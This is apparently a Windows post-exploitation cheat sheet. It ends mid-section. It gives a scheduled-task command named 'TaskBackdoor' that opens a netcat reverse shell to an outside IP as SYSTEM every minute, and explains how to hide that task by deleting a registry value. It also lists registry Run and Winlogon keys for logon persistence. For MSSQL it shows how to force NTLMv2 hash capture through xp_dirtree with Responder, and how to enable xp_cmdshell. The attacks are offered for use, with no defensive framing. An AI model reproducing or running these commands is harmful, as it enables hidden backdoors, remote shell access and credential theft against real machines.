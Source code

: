 # Scheduled Tasks
## Create Task
schtasks /create /sc minute /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.90.206 4449" /ru SYSTEM<br>
## Make Task Invisible
Edit Registery Value<br>
Location:<br>

Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\{TASKNAME}<br>
 
Delete SD-value<br>

# Execute On User Logon
Add new REGEXPANDSZ registry field in one of these, set Data to be path to your executable<br>

HKCU\Software\Microsoft\Windows\CurrentVersion\Run<br>
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce<br>
HKLM\Software\Microsoft\Windows\CurrentVersion\Run<br>
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce<br>
 ## OR append UserInit or Shell registry on

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\<br>
 ## OR add new regsitry "UserInitMprLogonScript" ON
HKCU\Environment<br>
 
# MSSQL
 use impackets module mssqlclient or heidi<br>
 ## IF ONLY READ PERMISSION
 ### PERFORM LLMNR/NBT-NS by:
 <br>xp_dirtree //attackerip/sharenotexist
 <br>on new terminal use
 <br> responder -I interface -wPv<br>
 on executing dirtree command you'll get the ntlmv2 hash on your responder, crack it and enjoy
## ANOTHER WAY On MSSQL Session Execute Queries:
sp_configure 'Show Advanced Options',1;<br>
RECONFIGURE;<br>
sp_configure 'xp_cmdshell',1;<br>
RECONFIGURE;<br>
### After:
USE master<br>
